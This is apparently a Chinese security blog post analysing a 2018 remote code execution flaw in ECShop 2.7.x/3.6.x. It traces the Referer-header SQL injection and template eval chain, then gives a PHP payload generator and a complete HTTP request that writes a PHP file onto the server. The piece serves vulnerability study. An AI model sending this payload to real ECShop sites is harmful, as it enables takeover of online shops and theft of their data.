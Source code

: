 ```yaml
---
title: ECShop前台RCE漏洞分析
tags:
  - SQL
  - RCE
date: 2018-09-10 13:11:58
toc: true
---
```


## 0x00前言
前几天出了个`ECShop<= 2.7.x/3.6.x`前台RCE，实训太无聊了来分析一波
<!-- more -->

## 0x01环境搭建
- [ECShop_V2.7.3](http://download.ecshop.com/2.7.3/ECShop_V2.7.3_UTF8_release1106.rar)
- nginx
- php

## 0x02漏洞原理
漏洞的触发点在/user.php:301，可以看到代码逻辑做了个判断，如果http头部的referer不包含`user.php`，就将referer赋值给`$back_act`  

![](/img/2018-ecshop-rce-1.png)  

接下来第325行以$back_act的值为参数，传入`assign`方法，该方法的作用是注册变量，将可控变量传递给模板对象，接着使用display方法就能将这个模板渲染出来，来看一下`display`方法的具体实现（/includes/cls_template.php:100)  

![](/img/2018-ecshop-rce-2.png)  

可以看到代码获取了$out，$out中有一部分代码就是前面assign注册的变量（这里的技术细节我就不讨论了，有兴趣的师傅可以研究研究），然后将$out依据`$_echash`分割并且对奇数块执行了insert_mod方法，`$_echash`是代码里写死的
```php
var $_echash        = '554fcae493e564ee0dc75bdf2ebf94ca';
```
所以这里的$val是可控的，继续往下跟`insert_mod`方法（/includes/cls_template.php:1155）  

![](/img/2018-ecshop-rce-3.png)  

该方法实现了一个动态函数调用，将传入的字符串分割后，前半部分拼接进函数名，后半部分反序列化为一个对象并传入该函数（这里因为参数可控，直接就能反序列化漏洞了，但是不知道为啥没有师傅提到，可能是被RCE掩盖了8），所以此处我们就能调用一个`insert_`开头的函数，这里通过网上流传的payload可以知道是调用了一个`insert_ads`方法（/includes/lib_insert.php:136）

![](/img/2018-ecshop-rce-4.png)  

代码将传入的对象取出num和id拼接进sql语句，因为对象是可控的，所以这里就存在了sql注入漏洞，结合前面的$out分割和分割取ads函数名和反序列化可以构造注入payload如下
```http
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:36:"*/ union select 1,2,3,4,5,6,7,8,9,10";s:2:"id";s:3:"'/*";}
```
拼接进去后的sql长这样
```sql
SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, p.ad_height, p.position_style, RAND() AS rnd FROM `ecshop273`.`ecs_ad` AS a LEFT JOIN `ecshop273`.`ecs_ad_position` AS p ON a.position_id = p.position_id WHERE enabled = 1 AND start_time <= '1536544160' AND end_time >= '1536544160' AND a.position_id = ''/*' ORDER BY rnd LIMIT */ union select 1,2,3,4,5,6,7,8,9,10
```
放到数据库里可以成功union select出数据  

![](/img/2018-ecshop-rce-5.png)  

这意味着查询出的结果也是我们可控的，继续啃代码，可以知道查询出来的position_id等于传入对象的id属性时，`$position_style`会被赋值为查询出的`position_style`并加入前缀`str:`接着传入fetch方法中
```php
foreach ($res AS $row)
    {
        if ($row['position_id'] != $arr['id'])
        {
            continue;
        }
        $position_style = $row['position_style'];
        .
        .
        .
 $val = $GLOBALS['smarty']->fetch($position_style);
```
跟进fetch方法，后面就是一条长长的利用链了：
- fetch（/includes/cls_template.php:135）：取str:后的字符串，`fetch_str`处理后传入_eval执行
- _eval（/includes/cls_template.php:1179）：将参数拼接进eval()执行
- fetch_str（/includes/cls_template.php:281）：过滤了一堆参数然后将`{}`内的字符串传入`select`中处理，返回处理后的字符串
- select（/includes/cls_template.php:371）：如果传入的参数以`$`开头，则将其传入`get_val`并将结果拼接到`<?php echo ' . $res . '; ?>`返回
- get_val（/includes/cls_template.php:553）：避开其他几个判断，直接将参数传入`make_val`执行并返回
- make_var（/includes/cls_template.php:663）：将字符串拼接进`$p = '$this->_var[\'' . $val . '\']';`并返回

根据以上利用链，最后构造的payload为`{$'];assert(xxxxxx);//}`
最后拼接进eval的参数长这样（其实上面利用链中还有其他许多分支可以最后拼接出可执行的代码，我就不深入研究了
```php
<?php echo $this->_var[''];assert(base64_decode("ZmlsZV9wdXRfY29udGVudHMoJy4vdGVtcC94aXNoaXIucGhwJywnPD9waHAgcGhwaW5mbygpOz8+Jyk="));//']; ?>
```

## 0x03漏洞利用
最后就是构造完整的payload了，我的构造脚本如下，扔到php里运行就好
```php
<?php

$payload = "file_put_contents('./temp/xishir.php','<?php phpinfo();?>')";
$res = "\{\$'];assert(base64_decode(\"".base64_encode($payload)."\"));//}";

bin2hex($res);
$a = ['num' => "*/ union select 1,0x272f2a,3,4,5,6,7,8,0x".bin2hex($res).",9", 'id' => "'/*"];

echo serialize($a);
```
```http
GET /ECShop_V2.7.3_UTF8_release1106/upload/user.php HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:273:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x5c7b24275d3b617373657274286261736536345f6465636f646528225a6d6c735a56397764585266593239756447567564484d6f4a793476644756746343393461584e6f61584975634768774a79776e5044397761484167634768776157356d627967704f7a382b4a796b3d2229293b2f2f7d,9";s:2:"id";s:3:"'/*";}
Connection: close

```
payload运行效果
![](/img/2018-ecshop-rce-5.gif)  

## 0x04参考链接
- [ECShop全系列版本远程代码执行高危漏洞分析](https://xz.aliyun.com/t/2689)
- [ECShop sqli and rce](www.lmxspace.com/2018/09/02/ECShop-sqli-and-rce/)

## 0x05后话
ECShop3.*中只是加了一些防护，核心漏洞点换汤不换药，有兴趣的师傅自行研究8  
ECShop4.0的修复方案是把插入sql的num和id强转为int，但是前面还有个动态函数调用和反序列化还是有风险的感觉，等一个师傅来解答。

有趣的是昨天分析下载代码的时候注册了一下ECShop官方的账号，今天就有小改改打电话问我是不是搞电商的，和她说我只是下载代码来学习研究的，她还推荐我去分析最新的4.*版本，好的我一定分析，咕咕咕
